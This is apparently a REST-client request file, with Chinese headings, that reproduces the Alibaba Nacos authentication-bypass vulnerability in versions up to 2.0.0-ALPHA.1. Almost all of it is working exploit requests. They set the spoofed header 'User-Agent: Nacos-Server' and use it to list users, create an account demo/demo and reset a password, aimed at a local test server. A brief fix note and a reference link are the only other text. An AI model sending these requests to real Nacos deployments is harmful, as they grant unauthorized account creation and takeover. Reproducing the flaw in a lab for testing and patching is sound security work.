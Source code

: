 # Alibaba Nacos权限认证绕过漏洞复现
## 影响版本: Nacos <= 2.0.0-ALPHA.1
## 修复建议: 官方已发布安全版本，建议下载或升级至最新版本
## 相关链接: https://www.freebuf.com/vuls/263845.html

@nacos=http://127.0.0.1:8849/nacos

### 查询用户
GET {{nacos}}/v1/auth/users?pageNo=1&pageSize=10
User-Agent: Nacos-Server


### 创建用户

POST {{nacos}}/v1/auth/users
User-Agent: Nacos-Server
Content-Type: application/x-www-form-urlencoded

username=demo&password=demo

### 密码重置

PUT {{nacos}}/v1/auth/users
User-Agent: Nacos-Server
Content-Type: application/x-www-form-urlencoded

username=demo&newPassword=demodemo
